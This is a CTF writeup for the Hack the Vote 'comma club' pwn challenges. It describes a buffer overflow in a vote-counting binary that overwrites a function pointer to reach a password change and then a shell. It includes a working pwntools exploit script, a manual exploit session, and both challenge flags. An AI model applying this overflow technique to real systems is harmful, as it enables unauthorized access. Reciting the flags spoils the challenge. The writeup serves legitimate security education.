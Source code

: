 ```yaml
---
title: comma club writeup
date: 2024-11-06
description: "[pwn] writeup of the comma-club and comma-club-revenge challenges from hack the vote ctf"
tags: ["ctf","pwn"]
---
```

# Challenge description

[link to challange](https://hackthe.vote/challenges#Comma%20Club-12)

"We need somone to run our vote tallying machine, and it needs to be someone trustworthy. Apparently there's some problem if a candidate gets too many votes. Shouldn't be a problem for us in Wyoming though."

nc comma-club.chal.hackthe.vote 1337

[file](https://hackthe.vote/files/7bc724cdc53f5e8375258cb26e69b258/comma-club.tar.gz)

# Solution

After inspecting the checksec output, we can see that the binary is not stripped and has all the protections disabled. We can also see that the binary is a 64-bit ELF file.

![checksec](/images/comma/comma_checksec.png)

In program we can add votes for cadidates and check the results. Other fuctionalities are locked with password. After inspecting the binary in IDA we can see that goal is to get to the close voting option ( it executes system("/bin/sh") ).

![ida](/images/comma/comma_goal.png)

When adding votes there is a limit of 584057 votes that we cann add to the candidate. Also when displaying the results, the program checks if the candidate has more than 584057 votes and if so, resets them to 0, but this happens only when we call the function that displays the results.

Candidates are stored in a structure that is innitialized like this:

![candidates](/images/comma/comma_candidate_structure.png)

After experimenting with the program, if we add a lot of votes for a candidate, the program will crash wig SIGSEGV. 

![cand_array](/images/comma/comma_cand_array.png)


Here in debuger we can see how candidates are stored in memory. 
(Name, votes,string representation of votes and poiter to function that displays the results)

Function print_int_with_commas has a buffer overflow vulnerability. We can overwrite the pointer to the function that displays the results. 

![chage_password_function](/images/comma/comma_change_password_function.png)

So we can overwrite last byte of the pointer so it points to change_password_to function. Last byte needs to be 0x39 which is 9 is ASCII. 

Here you can see how the cand_array looks like after overwriting the pointer.

![overwritten_pointer](/images/comma/comma_overflowed.png)

Last step is to determine to what password will be changed. We can see that by inspecting RAX register when we enter function.

![password](/images/comma/comma_new_password.png)

Here is final exploit:

```python
from pwn import *
from binascii import *
PATH = './challenge'
ADDR = 'comma-club.chal.hackthe.vote'
PORT = 1337
elf = context.binary = ELF(PATH)
context.log_level = 'debug'
####
#r = remote(ADDR, PORT)
####
r = process(PATH)
####
# context.terminal = ['wt.exe','wsl.exe']
# r = gdb.debug(args=[elf.path])
###
r.recvuntil(b'> ')
r.sendline(b'1') #add vote option
votes = 1000009
reminder = votes % 584056
reps = votes//584056
for i in range(reps):
    r.recvuntil(b'> ')
    r.sendline(b'1') #select candidate
    r.recvuntil(b'> ')
    r.sendline(b'584056') #add votes
r.recvuntil(b'> ')
r.sendline(b'1')
r.recvuntil(b'> ')
r.sendline(str(reminder).encode()) #add rest of votes
r.recvuntil(b'> ')
r.sendline(b'3') #quit
r.recvuntil(b'> ')
r.sendline(b'2') #print votes
r.recvuntil(b'> ')
r.sendline(b'3') #end vote
r.recvuntil(b'> ')
r.sendline(b'Total') #password
r.interactive() #shell
```

Also program can be exploited like this:

```
Welcome to the Wyoming Vote Tallying Software
Presented by Jeff!
Please select an option:
1) Enter votes for a candidate
2) View current vote totals
3) Close voting and display the winner (requires password)
4) Change password (requires password)
> 1
Select a candidate to add votes to, or 3 to return
1): Wilfred J Lewis
2): Jeanette D Westcott
> 1
Enter the votes to add
> 500009
Select a candidate to add votes to, or 3 to return
1): Wilfred J Lewis
2): Jeanette D Westcott
> 1
Enter the votes to add
> 500000
Select a candidate to add votes to, or 3 to return
1): Wilfred J Lewis
2): Jeanette D Westcott
> 3
Please select an option:
1) Enter votes for a candidate
2) View current vote totals
3) Close voting and display the winner (requires password)
4) Change password (requires password)
> 2
password change sucessful.

Candidate cannot have more votes than the population of Wyoming (584057).
Resetting vote count to 0.
**********************************************************************
* Candidate: Wilfred J Lewis - S                                     *
* Vote Tally:               0                                        *
* [                                                      ] (  0.00%) *
*                                                                    *
**********************************************************************

**********************************************************************
* Candidate: Jeanette D Westcott - T                                 *
* Vote Tally:               0                                        *
* [                                                      ] (  0.00%) *
*                                                                    *
**********************************************************************

Please select an option:
1) Enter votes for a candidate
2) View current vote totals
3) Close voting and display the winner (requires password)
4) Change password (requires password)
> 3
Please enter the password
> Total
Correct!
Voting is now closed! The winner is Wilfred J Lewis with 0 votes!
This program will now exit.
cat flag
flag{w3lc0me_2_TH3_2_c0mm4_c1ub}
```

This exploit happend to work also on second part of the challange called comma-club-revenge (this challange could be also exploited by sending null bytes as password to terminate strncpy).

Second flag:
```
flag{W3lc0Me_t0_TH3_gr34t3r_th4N_0n3_c0Mm4_c1Ub}
```









